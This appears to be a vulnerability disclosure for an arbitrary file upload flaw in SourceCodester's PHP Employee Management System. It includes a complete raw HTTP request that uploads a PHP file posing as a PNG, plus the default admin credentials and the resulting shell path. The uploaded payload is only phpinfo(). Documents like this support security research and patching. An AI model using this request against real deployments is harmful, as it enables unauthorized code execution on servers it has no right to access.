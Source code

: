 # RCE-1

## Vulnerability Description

Arbitrary file upload vulnerability in SourceCodester [Employee Management System using PHP and MySQL](https://www.sourcecodester.com/php/16999/employee-management-system.html) allows attackers to execute arbitrary code via the file upload to add-admin.php. It is an open source project from [https://www.sourcecodester.com/](https://www.sourcecodester.com/).

1. BUG_Author:  XuJianLin
2. vendors: [Employee Management System using PHP and MySQL](https://www.sourcecodester.com/php/16999/employee-management-system.html);
3. The program is built using the  PHP 7.3.4nts version;
4. Vulnerability location: /employee_akpoly/Admin/add-admin.php

# Vulnerability Verification

[+] Payload:

```
<?php phpinfo();?>
```

POC：

```js
POST http://192.168.10.108/employee_akpoly/Admin/add-admin.php HTTP/1.1
Host: 192.168.10.108
Content-Length: 701
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.10.108
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryx29tkKTC1YYpYwZs
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36 Edg/122.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.10.108/employee_akpoly/Admin/add-admin.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ci_session=ees3tjel0fsobjmnvj6ghqu8l2dbl0q5; PHPSESSID=eus8iflugmq89jkbi16btkvoof
Connection: close

------WebKitFormBoundaryx29tkKTC1YYpYwZs
Content-Disposition: form-data; name="txtusername"

aaa
------WebKitFormBoundaryx29tkKTC1YYpYwZs
Content-Disposition: form-data; name="txtfullname"


------WebKitFormBoundaryx29tkKTC1YYpYwZs
Content-Disposition: form-data; name="txtpassword"


------WebKitFormBoundaryx29tkKTC1YYpYwZs
Content-Disposition: form-data; name="txtphone"


------WebKitFormBoundaryx29tkKTC1YYpYwZs
Content-Disposition: form-data; name="avatar"; filename="demo-bank-card-1.php"
Content-Type: image/png

<?php phpinfo();?>
------WebKitFormBoundaryx29tkKTC1YYpYwZs
Content-Disposition: form-data; name="btncreate"


------WebKitFormBoundaryx29tkKTC1YYpYwZs--

```

## How to verify

1.Build the vulnerability environment according to the steps provided by the source code author ;

2.login to the "Admin Panel” through the default account and password（username: admin Password: admin123）;

3.Shell Path:   **/employee_akpoly/uploadImage/Profile/demo-bank-card-1.php**

The vulnerability lies in the "User Management - Add User " function, you shuold inserts Payload when you update photo，as shown in the following figure：

​![image-20240309153602-igp7h78](https://github.com/LiAoRJ/CVE_Hunter/assets/80115065/758b953b-3742-4496-bf6d-13546e1d90f5)

![image-20240309153647-ngyoo56](https://github.com/LiAoRJ/CVE_Hunter/assets/80115065/b2dd8e77-b2e4-4ea0-9e9e-55a6dd3cf0b0)

​![image-20240309154232-5ru7vex](https://github.com/LiAoRJ/CVE_Hunter/assets/80115065/5234e1fc-a98f-4c13-9395-fb4b2f353ade)

​![image-20240309155540-y6ug2wq](https://github.com/LiAoRJ/CVE_Hunter/assets/80115065/444b2ccd-d325-4de2-9322-0790c4d037fd)

​
